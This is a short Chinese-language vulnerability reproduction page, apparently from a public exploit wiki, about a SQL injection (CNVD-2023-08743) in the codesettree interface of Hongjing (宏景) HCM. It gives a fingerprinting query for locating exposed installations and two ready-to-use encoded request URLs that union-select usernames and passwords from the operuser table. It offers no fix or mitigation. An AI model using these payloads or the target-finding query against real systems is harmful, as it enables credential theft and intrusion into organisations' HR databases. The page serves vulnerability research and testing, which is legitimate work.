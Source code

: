 # 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-08743

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

<a-checkbox checked>宏景 HCM</a-checkbox></br>

## 网络测绘

app="HJSOFT-HCM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1683867071190-3dd51bbf-781c-402c-9664-b769099d6c2a.png)

验证POC

```php
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![img](../../../.vuepress/public/img/1686056902027-f31d6443-4eac-449e-9228-23edc783f56f.png)